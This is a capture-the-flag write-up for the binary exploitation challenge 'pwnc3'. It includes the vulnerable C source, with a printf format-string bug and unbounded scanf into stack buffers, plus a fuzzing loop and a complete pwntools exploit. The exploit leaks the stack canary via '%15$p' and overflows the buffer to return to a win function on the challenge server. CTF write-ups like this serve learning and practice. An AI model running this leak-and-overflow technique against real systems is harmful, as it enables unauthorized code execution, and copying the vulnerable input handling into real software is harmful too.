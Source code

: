 ```yaml
---
description: Binary Exploitation
---
```


# pwnc3

> A vulnerable program could you lead to the flag.
>
> By: @4nimanegra

{% file src="../../.gitbook/assets/pwn (2)" %}

{% file src="../../.gitbook/assets/pwn (2).c" %}

```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

Another simple challenge that uses an actual canary this time. Since there isn't any visible variables to overwrite, I had to use the regular way to bypass canary, which requires me to leak it using Format String Exploits. Luckily, the program gives a lot of chances to scout the correct canary!

```c
void pwnme(){

	char name[32];
	char surname[32];

	printf("Insert your name: ");

	scanf("%s",name);

	printf("Welcome home ");
	printf(name);
	printf("\n");

	printf("Insert your first surname: ");

	scanf("%s",surname);

	printf("Insert your second surname: ");

	scanf("%s",surname);


	printf("Your user has been added!!!\n");

}
```

Since finding the correct canary takes time, I used a loop to fuzz through a lot of them at once:

```python
# FUZZING for canary
for i in range(0, 40):
    io = start()
    io.clean()
    io.sendline(bytes(f'%{i}$p', 'utf-8'))
    log.info(f'{i} Leaking stack: {io.recvline()}')
    io.close()
```

Knowing the basics of what canary addresses look like based on [https://ir0nstone.gitbook.io/notes/binexp/stack/canaries](https://ir0nstone.gitbook.io/notes/binexp/stack/canaries), I found the canary at `$15p`. And with that, just do the usual overwriting variables technique with the leaked canary and return to the win function:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'pwn')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '130.206.158.146'
port = int(args.PORT or 42013)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
# tbreak main
b *pwnme+60
b *pwnme+231
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

RET = 0x000000000040111f
WIN = 0x00000000004011a6

io = start()
io.clean()
io.sendline(b'%15$p')
io.recvuntil(b'home ')

# leak
leak = io.recvline().strip()
leak = int(leak, 16)
log.info(f'Leaked address: {hex(leak)}')

io.sendline(b'winter')
io.clean()

payload = flat(
    cyclic(40, n=8),
    leak,
    cyclic(8, n=8),
    RET,
    WIN
)

io.sendline(payload)

io.interactive()
```

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>
